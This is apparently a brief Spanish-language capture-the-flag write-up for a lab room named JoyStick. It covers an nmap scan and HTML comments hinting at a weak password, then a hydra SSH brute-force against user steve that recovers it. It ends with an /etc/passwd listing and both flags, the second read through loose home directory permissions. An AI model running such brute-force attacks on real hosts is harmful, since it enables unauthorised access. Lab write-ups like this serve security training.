 # JoyStick
Room Sencillita , solo bruteforcing
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum

### HTTP

```html
<!-- Zach, I don't care that you named your user steve. You still need to finish making the website -->
<!-- Great, and now the FTP server just doesn't work. Just another great idea after	your failed irc chat. Why would we use that when we have in game chat? 
Not to mention that I know you still haven't reset your password.  -->
```

Por lo que se ve tenemos un usuario llamado Steve con creds faciles de averiguar

### SSH

Vamos a hacerle bruteforcing
```
hydra -l steve -P rockyou.txt 10.10.101.140 -t 16 ssh
[22][ssh] host: 10.10.101.140   login: steve   password: changeme
```

Accedemos con las creds y ya tenemos acceso a la primera flag
```
flag{is_only_gaem}
```
### Privesc

```
root:x:0:0:root:/root:/bin/bash
notch:x:1000:1000:Notch,,,:/home/notch:/bin/bash
minecraft:x:1001:1001:Mine,,,:/home/minecraft:/bin/bash
```
Tras enumerar usuarios me di cuenta de qeu tenia acceso a los otros /home, en el de Notch hay un root.txt

Lo podemos leer y así conseguir la otra flag

```
flag{poorly_configured_permissions}
```
